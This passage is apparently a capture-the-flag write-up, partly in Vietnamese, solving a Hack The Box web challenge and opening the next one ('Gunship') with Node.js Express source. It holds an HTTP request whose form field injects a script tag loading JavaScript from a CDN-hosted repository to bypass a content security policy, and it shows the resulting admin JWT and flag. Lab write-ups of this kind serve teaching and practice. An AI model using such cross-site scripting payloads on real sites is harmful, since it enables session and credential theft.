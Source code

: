 
![image](https://hackmd.io/_uploads/BJpIQPyUR.png)

```
POST /api/submit HTTP/1.1
Host: 94.237.54.176:47791
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.54.176:47791/
Content-Type: application/json
Content-Length: 183
Origin: http://94.237.54.176:47791
Connection: close
Priority: u=1

{"halloween_name":"<script src=\"https://cdn.jsdelivr.net/gh/l3mnt2010/jsdelivr@main/index.js\"></script>","email":"hihi@gmail.com","costume_type":"monster","trick_or_treat":"tricks"}
```

![image](https://hackmd.io/_uploads/Byq_QDk80.png)

``
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9yb2xlIjoiYWRtaW4iLCJmbGFnIjoiSFRCe2Qwbid0XzRsbDB3X2Nkbl8xbl9jNXAhIX0iLCJpYXQiOjE3MTg3Mzk3ODB9.dzm05GgI5Sjx73YeH7VIFXrOpG8cfd6gnBbo3oProyE
``

![image](https://hackmd.io/_uploads/ry59XvJLR.png)

flag : `HTB{d0n't_4ll0w_cdn_1n_c5p!!}`

## Gunship

- Một chall với nodejs:

```

const express       = require('express');
const app           = express();
const routes        = require('./routes');
const path          = require('path');

app.use(express.json());
app.set('views','./views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send('404 page not found');
});

app.listen(1337, () => console.log('Listening on port 1337'));
```
